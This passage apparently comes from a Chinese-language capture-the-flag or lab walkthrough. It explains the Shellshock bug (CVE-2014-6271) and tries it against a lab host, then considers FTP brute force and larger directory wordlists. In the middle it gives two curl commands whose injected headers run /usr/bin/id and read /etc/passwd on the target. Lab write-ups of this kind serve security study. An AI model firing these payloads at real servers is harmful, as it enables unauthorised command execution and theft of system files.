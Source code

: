好好好，那么就测试有无`shellshock`漏洞。对于该漏洞，再次写一下

> CVE漏洞名称：CVE-2014-6271
>
> 目前的bash使用的环境变量是通过函数名称来调用的，导致漏洞出问题是以“(){”开头定义的环境变量在命令ENV中解析成函数后，Bash执行并未退出，而是继续解析并执行shell命令。核心的原因在于在输入的过滤中没有严格限制边界，没有做合法化的参数判断。

那么尝试构造链接进行测试

```shell
curl -H "User-Agent: (){ :;};echo Content-Type;echo test;/usr/bin/id;" http://192.168.10.11/cgi-bin/test.cgi -I -v

curl -H 'x: () { :;};a=/bin/cat /etc/passwd;echo $a' 'http://192.168.10.11/cgi-bin/test.cgi' -I
```

![](./pic/17.jpg)

但是测试后，发现漏洞应该修复了，代码并没有执行成功，奇怪了，突破点在哪里啊

使用`searchsploit`有无对应的`apache2`漏洞，基本上不行

两条路，爆破`ftp`，这个难度可能高，毕竟不知道用户名和密码

另外就是目录爆破的字典不行，再扩大

这里我其实使用的是`kali`默认的最大字典了，啧，只能下载字典了，好在可以通过`apt`直接下载

```shell
apt -y install seclists
```
